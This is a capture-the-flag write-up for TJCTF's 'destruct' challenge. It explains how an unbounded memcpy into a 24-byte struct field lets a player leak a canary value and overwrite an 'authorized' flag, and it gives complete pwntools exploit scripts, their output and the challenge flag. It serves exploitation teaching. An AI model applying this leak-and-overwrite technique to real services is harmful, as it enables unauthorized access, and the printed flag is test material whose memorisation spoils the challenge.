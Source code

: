 ### Solved by superkojiman

Connecting to the target returns a menu: 

```
koji@pwnbox32:~/Desktop/destruct$ nc p.tjctf.org 8085
Commands:

u: Set username.
p: Set password.
m: Set message.
d: Display info.
c: Check authorization.
f: If authorized, print flag.
>
```

Option "f" appears to be what we want. Selecting it returns an error saying that we're not authorized, obviously. If we look at destruct.c, we see that there's a struct P containing the following:

```c
typedef struct P {
    char user[32];
    char pass[32];
    char mess[24];
    int canary;
    int authorized;
} Person;
```

If we look at what happens when we select "f", we see:

```c
case 'f':
    if (p->authorized) {
        printf("Authorized!\nFlag: ");
        FILE *f = fopen("flag","r");
        while ((c2 = fgetc(f)) != EOF) {
            printf("%c",c2);
        }
        fclose(f);
    } else {
        printf("Not Authorized.\n");
    }
    break
```

So the problem is that p->authorized is set to 0 (false), and we need it to be set to greater than 0 (true). Further examination of the code reveals that there's an overflow when entering a message (choosing option "m"). In struct P, the buffer for storing the message is 24 bytes. However, the code responsible for copying the message into that buffer is copying up to 32 bytes: 

```c
char buf[32] = {0};
while (1) {
.
.
.
    case 'm':
        printf("Enter new message.\n");
        read_in(buf);
        memcpy(p->mess,buf,strlen(buf));        // whoops! strlen(buf) returns 32
        break;
```

If we write more than 24 bytes to p->mess, then we can overwrite p->authorized. However, p->canary sits between p->mess and p->authorized, so overwriting p->authorized means we'll also overwrite p->canary. p->canary is a randomly generated 4-byte value and a check is made to see if it's been changed, and if it has, the program quits:

```c
if (canary != p->canary) {
    printf("Error: Canary has been changed.\n");
    return 1;
}
```

The canary is generated once when the program starts and stays the same until the program is restarted. As it turns out, we can leak the canary's value by writing exactly 24 bytes to mess and then selecting the "d" option to display our info. When we display our info, the message will include the canary since p->mess isnt null terminated. Here's the code to leak the canary:  

```python
#!/usr/bin/env python

from pwn import *

r = remote("p.tjctf.org", 8085)
r.recv()

# set message
r.send("m" + "\n")
r.recv()
r.send("A"*24 + "\n")
r.recv()
r.recv()

# display info and leak the canary
r.send("d" + "\n")
msg = r.recv().strip()
r.recv()
canary = msg[len(msg)-4:]
print "canary :", enhex(canary)
```

Let's see it in action: 

```text
koji@pwnbox32:~/Desktop/destruct$ ./leak.py 
[+] Opening connection to p.tjctf.org on port 8085: Done
canary : 414c69e4
[*] Closed connection to p.tjctf.org port 8085
```

Now that we can leak the canary, we can simply enter another message of 24 bytes, followed by our leaked canary, and any value that sets p->authorized to greater than 0. 


```python
#!/usr/bin/env python

from pwn import *

r = remote("p.tjctf.org", 8085)
print r.recv()

# set message
r.send("m" + "\n")
print r.recv()
r.send("A"*24 + "\n")
print r.recv()
print r.recv()

# display info and leak the canary
r.send("d" + "\n")
msg = r.recv().strip()
print r.recv()
canary = msg[len(msg)-4:]
print "canary :", enhex(canary)

# now overwrite authorized member
buf = ""
buf += "A"*24       # message
buf += canary       # leaked canary
buf += p32(0x1)     # set authorized to 1
r.send("m" + "\n")
print r.recv()
r.send(buf + "\n")
print r.recv()
print r.recv()

# get the flag
r.send("f" + "\n")
print r.recv()
print r.recv()
```

Let's do it:

```text
koji@pwnbox32:~/Desktop/destruct$ ./sploit.py 
[+] Opening connection to p.tjctf.org on port 8085: Done
Commands:

u: Set username.
p: Set password.
m: Set message.
d: Display info.
c: Check authorization.
f: If authorized, print flag.

>
Enter new message.

>
>
canary : de073b7c
Enter new message.


>
Authorized!
Flag: 
5truc7byL1ghtn1ng
>
[*] Closed connection to p.tjctf.org port 8085
```

The flag is: 5truc7byL1ghtn1ng
